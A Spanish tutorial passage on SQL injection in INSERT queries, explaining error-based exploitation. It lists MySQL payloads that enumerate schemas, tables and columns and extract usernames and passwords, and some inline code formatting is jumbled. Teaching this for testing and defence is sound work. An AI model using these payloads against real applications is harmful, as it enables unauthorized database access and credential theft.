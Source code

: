 ### SQLi en Consultas `INSERT`

A veces, la entrada del usuario se inserta directamente en una sentencia `INSERT` en lugar de un `SELECT`. Esto abre diferentes vectores de inyección.

**Contexto de un `INSERT` Vulnerable:** La aplicación permite añadir comentarios:

```sql
INSERT INTO comments (date_posted, author_name, comment_text) VALUES ('2025-06-03', 'usuario_input', 'comentario_input');
```

Si `usuario_input` o `comentario_input` no se sanitizan correctamente.

#### 1. SQLi en `INSERT`: Explotación Basada en Errores

Si la aplicación muestra errores de la base de datos (o si los datos insertados, incluyendo el resultado de una subconsulta inyectada, se muestran en otro lugar), se puede exfiltrar información.

**Inyección Básica para Romper la Sintaxis:** Si el atacante introduce en el campo `author_name`: `atacante_nombre', 'comentario_falso'); --` La consulta se convertiría en:

```sql
INSERT INTO comments (date_posted, author_name, comment_text) 
VALUES ('2025-06-03', 'atacante_nombre', 'comentario_falso'); -- ', 'comentario_input_original');
```

Aquí, el atacante cierra el string de `author_name`, provee un valor para `comment_text`, cierra el `VALUES()` y la sentencia `INSERT`, y comenta el resto.

**Exfiltración de Datos (MySQL - inyectando en el segundo campo `author_name`):**

- **Obtener Versión de MySQL:** Payload para `author_name`: `test_author', (SELECT version()), 'test_comment`); -- `Consulta resultante (si el`INSERT`tiene 3 columnas para los valores):`INSERT INTO comments (col1, col2_author, col3_comment) VALUES ('valor_original1', 'test_author', (SELECT version()), 'test_comment`); -- ', 'valor_original3');` Si `(SELECT version())` causa un error de tipo de dato o si el valor se muestra después, se obtiene la versión. _Nota: El número de valores inyectados debe coincidir con el número de columnas que la sentencia `INSERT` espera para los valores que estás manipulando._
- **Enumerar Bases de Datos (Schemas):** Payload para `author_name`: `test_author', (SELECT GROUP_CONCAT(SCHEMA_NAME) FROM information_schema.SCHEMATA), 'test_comment`); -- `
- **Enumerar Tablas de una Base de Datos (`mi_db`):** Payload para `author_name`: `test_author', (SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA='mi_db'), 'test_comment`); -- `
- **Enumerar Columnas de una Tabla (`usuarios` en `mi_db`):** Payload para `author_name`: `test_author', (SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='mi_db' AND TABLE_NAME='usuarios'), 'test_comment`); -- `
- **Extraer Datos (e.g., de `mi_db.usuarios`):** Payload para `author_name`: `test_author', (SELECT GROUP_CONCAT(CONCAT_WS(':', username, password)) FROM mi_db.usuarios), 'test_comment`); -- `

**Consideraciones para INSERT SQLi (Error-based):**

- El número de valores en la inyección debe corresponder a las columnas esperadas por la sentencia `INSERT` a partir del punto de inyección.
- Los tipos de datos deben ser compatibles, o la subconsulta debe devolver un tipo que pueda ser coaccionado/convertido, o el error mismo debe filtrar el dato.
- La aplicación debe reflejar el error de la base de datos o los datos insertados (que ahora contienen la información exfiltrada).
- Si `GROUP_CONCAT` devuelve demasiados datos, puede exceder límites o ser truncado. Usa `LIMIT` en las subconsultas para extraer datos por partes.
